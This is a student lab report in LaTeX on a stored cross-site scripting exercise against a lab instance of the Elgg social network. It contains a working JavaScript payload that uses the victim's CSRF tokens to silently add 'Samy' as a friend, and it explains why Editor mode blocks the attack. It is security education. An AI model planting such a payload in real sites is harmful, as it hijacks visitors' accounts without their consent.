\section{Task 4: Becoming the Victim's Friend}
%
\begin{figure}[h!]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/HTTP_GET_add_friend.png}
    \caption{HTTP GET request for adding Samy as a friend.}
    \label{fig:http_get_add_friend}
\end{figure}

\begin{lstlisting}[caption=Script for XSS attack --- adding Samy as a friend,
                label={lst:xss_add_friend}]
<p><script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
var sendurl = `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}`; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}

alert('Added Samy as a friend!'); // Create a pop-up warning box
</script></p>
\end{lstlisting}

Firstly, we wanted to discover what is the URL pattern for adding Samy as a friend in \emph{Elgg}.
By investigating the HTTP GET request (see \autoref{fig:http_get_add_friend}), we figured
out that the URL pattern is:

\begin{center}
   \url{ http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=<ts>&__elgg_token=<token>}
\end{center}

where 59 is the id of Samy, \emph{\_\_elgg\_token} and \emph{\_\_elgg\_ts} are two security tokens
used for preventing CSRF attacks. Then we added the attacking script (see \autoref{lst:xss_add_friend})
to the field of \emph{About me} in the Text mode. Besides, we created a pop-up window showing
the message `Added Samy as a friend!' to notice that the script run successfully (see
\autoref{fig:XSS_script_add_friend}). So now if someone visit Boby's page, he/she will add
Samy as a friend without his/her attention (see \autoref{fig:samy_friend_boby}).

\begin{figure}[h!]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_add_friend.png}
    \caption{Samy is in the friend list of Boby.}
    \label{fig:samy_friend_boby}
\end{figure}

\begin{figure}[h!]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_add_friend.png}
    \caption{XSS script ran successfully.}
    \label{fig:XSS_script_add_friend}
\end{figure}

\textbf{Question 1: Explain the purpose of Line 1 and 2, why are they are needed?}\\
Line 1 and 2 are for retrieving the security tokens needed for
validating if the HTTP request comes from the same site (preventing CSRF attack).
If these two tokens are not attached to the request, the web server will treat that
request as a invalid request which comes from untrusted cross-site, resulting an error.
In the script, these two tokens are stored in two variables that are inserted into the
HTTP GET request as parameters.

\textbf{Question 2: If the Elgg application only provide the Editor mode for the "About me"
field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?}\\
The attack cannot be done successfully since some special charaters needed to make a script
are encoded into other charaters. For instance, we made a simple script

\begin{verbatim}
    <script>alert("Hello");</script>
\end{verbatim}

, then the script were turned into a different set of charaters
(see \autoref{fig:XSS_script_editor_mode}). We can see that `<' was replaced by `\&lt',
`>' was replaced by `\&gt'. Hence, \emph{tags} in the script are encoded into different
charaters, making JavaScript code does not work properly. In other words, the code needs
the tag <script> \& </script> for being executed. 


\begin{figure}[h]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/script_edit_mode.png}
    \caption{Special charaters are encoded in Editor mode.}
    \label{fig:XSS_script_editor_mode}
\end{figure}